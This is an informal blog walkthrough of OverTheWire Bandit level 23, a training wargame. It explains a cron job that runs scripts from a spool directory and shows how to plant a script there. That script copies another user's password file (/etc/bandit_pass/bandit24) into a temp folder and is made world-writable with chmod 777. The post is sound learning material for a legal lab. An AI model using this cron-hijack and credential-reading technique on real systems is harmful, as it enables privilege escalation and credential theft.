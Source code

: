 +++
title = ' OverTheWire Bandit23'
date = 2024-07-04T06:51:56-05:00
+++

# Introduction

This post is part of a series walking through OverTheWire Bandit. You many want to start at the [beginning of the series]({{<ref "bandit-start">}}). The posts are my unedited, informal thought process while solving levels.

# Task

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# Theory

- Vim
- [Linux File permissions](https://www.cbtnuggets.com/blog/technology/system-admin/deciphering-linux-file-directories-and-permissions-a-guide)
- [chmod](https://www.cbtnuggets.com/blog/technology/system-admin/when-to-use-chmod-vs-chown)

# Solution

Alright, our normal start

```bash
cd ../../
cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

So let's figure out what the script does

```bash
bandit23@bandit:/$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Okay even if you don't understand any of the code, you can see from the echo statement that it says it's executing and deleting all scripts in a location. Let's try to navigate there.

So there was no bandit23 location in that directory, but I did find a bandit24 directory `/var/spool/bandit24`

Let's try adding a script and see what happens. We will use `vim` to write the script. Just know when you are done writing you can click `esc`, then `:`, which tells vim you are issuing a command as opposed to typing. Then type `wq` for write and quit.

We will mimick our script like the one from the last level since we essentially want the same thing, but we can do away with all the variables and create our own tmp directory first using `mktemp -d` adn write into that directory so our file doesn't get deleted.

```bash
mktemp -d
cd cd /tmp/tmp.z7yOZ49ykk
vim b24pass.sh
```

Now, in vim, type:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.z7yOZ49ykk/pass
```

Then click `esc`, then type `:wq`
Now we just wait 1 minute for our script to be executed by the cron job and run the comannd from last level to figure out the location.

Now we need to copy the file to the cron job directory we found, however if we only copy then nothing happens because we also need to set the correct file permissions. If you're not familiar with linux file permissions and chmod, read the articles linked in the theory section.

```bash
chmod 777 b24pass.sh
chmod 777 /tmp/tmp.z7yOZ49ykk
cp -f b24pass.sh /var/spool/bandit24/foo/b24pass.sh
```

Now wait a minute for the cron job to execute then run this to get the password.

```bash
ls
cat pass
```
